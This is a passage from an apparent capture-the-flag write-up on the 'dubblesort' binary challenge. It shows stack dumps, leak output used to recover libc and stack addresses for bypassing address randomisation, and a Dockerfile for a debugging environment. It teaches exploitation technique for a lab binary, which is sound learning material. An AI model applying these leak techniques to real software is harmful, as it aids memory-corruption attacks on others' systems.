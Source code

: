 ```bash
0xff8e73c0:     0xf59af608      0x00000009      0xff8e742c      0xff8e7541
0xff8e73d0:     0x00000000      0x00000000      0x01000000      0x00000009
0xff8e73e0:     0xf5976570      0x00000000      0xf57414be      0xf5953054
0xff8e73f0:     0xf59704a0      0xf5988f90      0xf57414be      0xf59704a0
0xff8e7400:     0xff8e7440      0xf597066c      0xf5970b40      0x37ac2f00
```

In this example, if we would overwrite `0x34` bytes, we would leak stack address, 
`0xff8e7440`, along with 2 preceding `libc` addresses. 
Note, that doing this large overwrite is preferred, as this way there's lesser chance of one of the randomized bytes in between to be a null termination, 
possibly truncation the output and damaging the exploit's statistics. 

Interestingly, upon remote-debugging the binary, I've noticed the stack layout was completely different. 
I've sent a single `'A'` character, and got the following:

```bash
[*] leak: 0xf76dd041
[*] leak: 0xffef0f21                                                 [*] leak: 0x6f482c2f
[*] leak: 0x616d2077
[*] leak: 0x6e20796e
[*] leak: 0x65626d75
[*] leak: 0x64207372
[*] leak: 0x6f79206f
[*] leak: 0x68772075
[*] leak: 0x74207461
[*] leak: 0x6f73206f
[*] leak: 0x3a207472
```

This means that the first dword is a libc leak, and the second - a stack leak. \
Moreover, the preceding string `"How many numbers do you what to sort :"` actually resides within the stack!.
Hence, it seems to be copied from the .rodata segment, probably as part of the `FORTIFY_SOURCE` extra runtime checks. \
Unfortunately, even though I've used the same `libc` version, and a matching `ld`, a similar yet different stack layout was produced.
I assume the usage of `patchelf` have completely changed the `.rodata` segment, hence produced completely different stack state. \
Hence, my next debugging step was to setup a relevant ubuntu-xenial docker image!

#### Debug Environment 2 - Docker!

I've wrote the following `Dockerfile`:

```bash
FROM ubuntu:xenial@sha256:bcb8397f1390f4f0757ca06ce184f05c8ce0c7a4b5ff93f9ab029a581192917b
ARG id=1000
ARG user=dubblesort

RUN apt-get update && \
        apt-get install -y sudo binutils curl gdb gdbserver && \
        addgroup --gid $id $user && \
        adduser --uid $id --gid $id --disabled-password --gecos "" $user && \
        echo '${user} ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers

COPY ./ld-2.23.so /lib/ld-linux.so.2
COPY ./libc_32.so.6 /lib/i386-linux-gnu/libc.so.6

USER ${user}
WORKDIR /home/${user}
COPY --chown=${user}:${user} ./dubblesort /home/${user}/dubblesort
```


[glibc-all-in-one]: https://github.com/matrix1001/glibc-all-in-one